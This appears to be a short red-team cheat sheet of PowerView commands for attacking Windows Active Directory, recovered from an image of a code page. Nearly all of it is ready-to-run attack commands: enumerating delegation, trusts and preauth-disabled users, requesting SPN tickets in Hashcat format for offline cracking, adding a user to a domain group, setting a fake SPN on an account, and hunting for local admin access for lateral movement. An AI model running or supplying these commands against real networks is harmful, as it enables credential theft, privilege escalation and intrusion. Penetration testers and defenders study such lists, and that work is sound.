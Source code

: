 ## Recon Find Constrained Delegation Computers
```
Get-DomainComputer -TrustedToAuth | select samaccountname,msds-allowedtodelegateto,useraccountcontrol | Format-List
```

## Recon Get DomainSID
```
Get-DomainSid -Domain <domain>
```

## Recon Get GPOs
```
Get-NetGPO | select displayname, gpcfilesyspath
```

## Recon Get SPN
```
Get-DomainUser -SPN | Get-DomainSPNTicket -OutputFormat Hashcat
```

## Recon Find Preauth user
```
Get-NetUser -PreauthNotRequired
```

## Post-Recon Enum Domain Trust
```
Get-DomainTrust -Domain <domain>
```

## Post-Recon Enum Domain Trust Map
```
Get-DomainTrustMapping
```

## PowerView Add user to domain group
```
Add-DomainGroupMember -Identity '<groupname>' -Members '<username>'
```

## PowerView Set SPN
```
Set-DomainObject -Credential $creds -Identity <account> -Set @{serviceprincipalname="fake/NOTHING"}
```

## Lateral Movement  Find-LocalAdminAccess
```
Find-LocalAdminAccess -Verbose
```
